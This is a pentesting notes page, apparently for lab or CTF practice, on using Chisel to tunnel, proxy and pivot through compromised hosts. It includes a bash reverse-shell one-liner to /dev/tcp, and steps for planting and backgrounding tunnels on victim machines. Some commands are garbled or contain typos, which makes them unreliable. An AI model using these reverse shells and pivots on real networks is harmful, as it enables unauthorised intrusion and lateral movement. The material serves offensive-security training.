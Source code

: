 # Chisel

# WARNING BIG REWRITE INBOUND!!


Given the discrepancy between term used in [[Port-Redirection-And-Tunnelling]] as a authorial decision I am just going to try standardise the Offensive Security terminology - so read the linked article for information regard why this repository uses a particular set of definitions.

[Chisel](https://github.com/jpillora/chisel.git) *"is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*

![](chiselworksthisway.png)

## Compilation and Shrinking the binary

```bash
#!/bin/bash
git clone https://github.com/jpillora/chisel.git 
cd chisel/
# On Victim machine:  
ldd --version # linux and windows


# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w" 
# Build for windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
upx chisel

# IPsec stuff I failed to get workingchisel server --port 8080 --reverse
go build -ldflags="-s -w"
upx brute chisel
chiselsize=$(du -hs chisel)
echo "Chisel is now ready and minimised: "
echo $chiselsize
```

**Ran either on Attack box or target box as a server or client** - you need to chain servers and client back to your endpoint server on your attacking machine

- Regarding `--socks5` and `:socks`
	- *"When the chisel server has `--socks5` enabled, remotes can specify "socks" in place of remote-host and remote-port. The default local host and port for a "socks" remote is 127.0.0.1:1080. Connections to this remote will terminate at the server's internal SOCKS5 proxy."*

- Regarding `--reverse` and `R:`... TLDR: `--reverse` allows reverse port forwarding, `R:` perform reverse port forward
	- *"When the chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote that they are reversed. That is, the server will listen and accept connections, and they will be proxied through the client which specified the remote. Reverse remotes specifying "`R:socks`" will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy."*

Capture `chisel` traffic with `tcpdump` 
```bash
sudo tcpdump -nvvvXi tun0 tcp port $PORT
```

## Local Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server --host $interfaceIP -p 10000 
# Client
chisel client $interfaceIP:10000 127.0.0.1:10001
```

## Remote/Reverse Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server --host $interfaceIP -p 10000 --reverse
# Client
# R .. reverse from
# :$local_host == any interface opening a :$local_port
# To some :$remote_host:$remote_port
chisel client $interfaceIP:10000 R:$local_host:$local_port:$remote_host:$remote_port
# For example from the machine with the server you want to curl an internal webpage on 10.10.11.1:443, with access only to a client on 10.10.10.1
chisel client $serverIP:10000 R:10.10.10.1:12345:10.10.11.1:443
```

## Dynamic Port Forwarding  

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5
chisel client $interfaceIP:10000  10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Dynamic Socks Proxy

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5 --reverse
chisel client $interfaceIP:10000  R:10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Pivot with Chisel Explained:

Chisel is useful when you can not port forward with ssh. You would then need chisel for reverse pivoting, which is the reverse of port forward as the **Remote box is listening** to connect back the attack to open up the tunnel. For information about [[Port-Redirection-And-Tunnelling]].

```bash
# AttackBox
chisel server -p 10000 -reverse # -v is useful for checking connection 
# Client
chisel client $attackboxIP:1000 R:8001:$targetip:$targetport
# Accessing through the tunnel on Attackbox
curl 127.0.0.1:8001 # will then access $clientip:$port
```


## Local Pivots and Chaining with Chisel Explained

Using `nohup` and `&` will background a job on a shell - very useful on Linux; for Windows there is dos `start /B chisel.exe` or PowerShell `start-job { chisel.exe ... }`.

Presuming you have a reverse shell on both 192.168.0.1 and 192.168.0.2, where `chisel server` has opened port `10001` from `nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10002 &` with second reverse shell on 192.168.0.2 being: `bash -c 'bash -i >& /dev/tcp/192.168.0.1/10001 0>&1'`. Beware the example below does not contain authentication mechanism used by `chisel` for most to keep the commands a short as possible, but use one and consider the following as two example the second (multiple pivots) being a extension of the first (single pivot):
```bash
# 10.10.10.10 = kali
# 192.168.0.1 = externally facing compromised box 
# 192.168.0.2 = internal virtual network not exposed to internet
# 192.168.0.3 = internal virtual network not exposed to internet

# Single Pivot
# Kali -> Box1 -> Box2
# Kali:
chisel server -host 10.10.10.10 -p 10000 --reverse --sock5 -v
./chisel client 127.0.0.1:10011 socks # $Kaliclient_pivot_toBox2 

# 192.168.0.1
# Box 1 server for pivoting from Box 2
./chisel server -host 192.168.0.1 --reverse --socks5 -p 11000
# Connect back to the server on kali through $Kaliclient on 127.0.0.1:10011
nohup ./chisel client 10.10.10.10:10000 R:10011:127.0.0.1:11000 &

# 192.168.0.2 - 
nohup ./chisel client 192.168.0.1:10002 10002:127.0.0.1:10002 &

```

```bash
# Kali <-> Box 1 <-> Box 2 <-> Box 3 
# Server
# Client Reverse -> Remote Server
# Client Sock -> Local Server

# Kali
./chisel server -host 10.10.10.10 --reverse --socks5 -p 10000 
./chisel client 127.0.0.1:10011 socks # $Kaliclient_pivot_toBox2
./chisel client 127.0.0.1:10012 socks # $Kaliclient_pivot_toBox3
# Box 1 <-> Kali
nohup ./chisel client 10.10.10.10:10000 10001:socks


# Box 1 server for pivoting from Box 2
./chisel server -host 192.168.0.1 --reverse --socks5 -p 11000
# Connect back to the server on kali through $Kaliclient on 127.0.0.1:10011
nohup ./chisel client 10.10.10.10:10000 R:10011:127.0.0.1:11000 &

# Box 2 -> Box 1 -> Kali
# Box 1
nohup ./chisel client 127.0.0.1:11012 socks & # $Box1client
nohup ./chisel client 10.10.10.10:10000 R:10011:127.0.0.1:11011 & # $Kaliclient_pivottoBox3
# Box 2
./chisel server -host 192.168.0.2 --reverse --socks5 -p 12000 
# Connect back to the server on Box 1 through $Box1client on 127.0.0.1:11012
nohup ./chisel client 192.168.0.1:11000 R:11012:127.0.0.1:12000 &
# Box 3 192.168.0.2 
# shell 192.168.0.2 1200?


```



[Consideration for Windows](https://learn.microsoft.com/en-US/troubleshoot/windows-client/deployment/create-user-defined-service)

## `SSH` and `chisel` with `ncat` 

If we has chisel socks proxy we can ssh into 10.10.10.10 with both `ssh` and `ncat` through the pivot! `ssh` plus `ncat` and `ProxyCommand` configuration option for SSH SOCKS Proxy
```bash
# SSH Formatting Tokens for ProxyCommand
# %h = host
# %p = port
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' admin@10.10.10.10
```

## 0xDF's TD;DR Cheat Sheet 

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim machine:

Command | Description
--- | ---
`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client
`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80
`chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through clie

For SOCKS proxies don't forget `proxychains` and it configuration!


## References

[0xDF Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
[Alexis Rodriiguez Medium](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683)
[Ippsec.Rocks](https://ippsec.rocks/?#)
[hdks](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)